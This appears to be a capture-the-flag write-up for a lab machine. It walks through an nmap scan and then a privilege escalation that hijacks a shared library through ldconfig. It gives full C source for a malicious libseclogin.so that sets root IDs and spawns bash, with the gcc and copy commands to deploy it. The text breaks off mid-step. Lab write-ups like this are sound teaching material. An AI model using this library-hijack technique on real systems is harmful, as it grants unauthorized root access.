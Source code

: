```nmap -sC -sV -oA nmap/dab 10.10.10.86```

```cat test.conf```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549224966279_image.png)


*we can see we can drop files into /tmp and re-run ldconfig and repopulates to a new library.*

with the end goal of changing libseclogin.so > [link we want to change]

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549225047943_image.png)


with control of ldconfig we should be able to modify.

*CREATE BASIC SHELL:*
create libseclogin.c

    #include <stdlib.h>
    extern int seclogin();
    
    int seclogin(){
            setreuid(0,0);
            execve("/bin/bash", NULL, NULL);
            }
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549225343478_image.png)


compile program with gcc

```gcc -shared -fPIC -o libseclogin.so libseclogin.c```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549225487032_image.png)


*libseclogin.so created and will now need to be moved to tmp folder*


```cp libseclogin.so /tmp```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549225564248_image.png)


# ROOT

check the ldd of myexec

```ldd /usr/bin/myexec```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549225628907_image.png)


execute the ldconfig

```ldconfig```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549225684083_image.png)


check ldd of myexec again:

```